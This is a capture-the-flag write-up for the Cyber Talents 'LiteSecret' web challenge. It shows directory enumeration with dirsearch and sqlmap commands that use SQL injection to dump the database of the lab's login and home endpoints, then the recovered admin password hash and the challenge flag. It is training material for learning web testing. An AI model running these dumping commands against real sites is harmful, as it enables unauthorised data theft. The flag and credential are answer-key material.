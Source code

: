 
# LiteSecret - Cyber Talents

To solve this challenge, I checked the elements in the dev tools and here is what I found:

![image](https://github.com/user-attachments/assets/8e7c33d5-4265-473f-b7dd-021f39b9e7b9)

---

## Step 2: Enumerating Subdirectories

After noticing there are subdirectories to traverse, I used **Dirsearch**:

```bash
dirsearch -u http://wcamxwl32pue3e6mkgvdrq0i9zrqe435p0l7s835-web.cybertalentslabs.com/login -x 403,404
```

Results:

![image](https://github.com/user-attachments/assets/ca5dbc8b-93cc-44d8-a511-c4c4e2ad900c)
![image](https://github.com/user-attachments/assets/ad25394d-19f6-46b8-af2d-aa2ad9229a6d)

---

## Step 3: Testing Input Fields for SQL Injection

I tried injecting input fields but they were ineffective, even with **SQLMap**. Here’s the command I used:

```bash
sqlmap -u "http://wcamxwl32pue3e6mkgvdrq0i9zrqe435p0l7s835-web.cybertalentslabs.com/login" --dbms=sqlite --level=3 --risk=3 --dump --ignore-code=500,404 --random-agent --threads=10 --answers=y --data="username=admin&password=pass"
```

Outcome:

![image](https://github.com/user-attachments/assets/4e2745da-8369-4fe5-b675-274df78ad258)

---

## Step 4: Using GET Method for SQL Injection

Next, I attempted SQL injection using the **GET** method with the following command:

```bash
sqlmap -u "http://wcamxwl32pue3e6mkgvdrq0i9zrqe435p0l7s835-web.cybertalentslabs.com/home/1" --dbms=sqlite --technique=BU --level=3 --risk=3 --dump --ignore-code=500,404 --random-agent --threads=10 --answers=y
```

Results:

![image](https://github.com/user-attachments/assets/3affacf1-0fa6-4cdd-9a46-4d5a0f0cfe24)
![image](https://github.com/user-attachments/assets/66e9f816-87b0-4f17-abc0-a45007bae9c1)

---

## Credentials Found

- **Username**: `Admin`
- **Password**: `3da0f453651f0eca43e02645b68ec83c3c659b9d57ea556d0842047c9393c789`

---

## Final Step: Retrieving the Flag

The flag obtained is:

**FLAG{4adc81ee29410e84b89f52c529a9b80774713a68aca48ffd6d0614896aa8704f}**

---

### Notes
- Use `--threads=10` to make the scanning process faster.
